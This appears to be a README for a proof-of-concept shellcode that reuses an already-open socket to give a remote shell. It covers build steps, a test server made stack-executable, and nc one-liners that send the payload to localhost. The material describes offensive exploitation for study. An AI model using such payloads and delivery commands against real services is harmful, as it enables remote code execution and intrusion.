 RSS : Reused Socket Shell

This is a proof of concept of a shellcode that reuse an existing socket to bind a shell on it

I've made two versions of this, the first one (shellcode.s) just check for the last opened file descriptor and gives you the shell though it. Wether it is your socket or not. This method should work on a server that fork() for each client and wich didn't open something after the socket was accepted.
The second version loops through the filedescriptors ; and make a call to recvfrom() for each one of theses. If it gets the good data, it will drop the shell. Otherwise, nothing happen it'll just check for the next socket.

To compile it use :

   ```
   nasm -o shellcode.o -felf64 shellcode.s
   ```

To link it (that step should not be necessary) :

   ```
   ld -o shellcode shellcode.o
   ```

For the test server, you should :

Compile it with gcc:

   ```
   gcc -o server serv_test.c
   ```

And then you should run execstack, wich will allow code execution on the stack. This is needed because we store the user's buffer in an array on the stack, and then execute it. Execstack should be one your repository :

   ```
   apt-get install execstack
   ```

And then run:
   
   ```
   execstack -s ./server
   ```

When you've done all of this, you can run the server.
And to get the shellcode, I use the command line (thanks to http://www.commandlinefu.com for that) in a script (I called it 'getsc') :

    #!/bin/sh
    for i in $(objdump -d $1 -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo

For testing, we will use this :

    (echo -ne `getsc shellcode` ; cat) | nc localhost 1024

And for our shellcode V2, we will need to give it the pattern to match, so let's use this :

    (echo -ne `getsc shellcode` ; echo -n BBBB ;  cat) | nc localhost 1024
    
Using cat allow us to run commands after the shellcode get executed; we wouldn't have a user input otherwise.
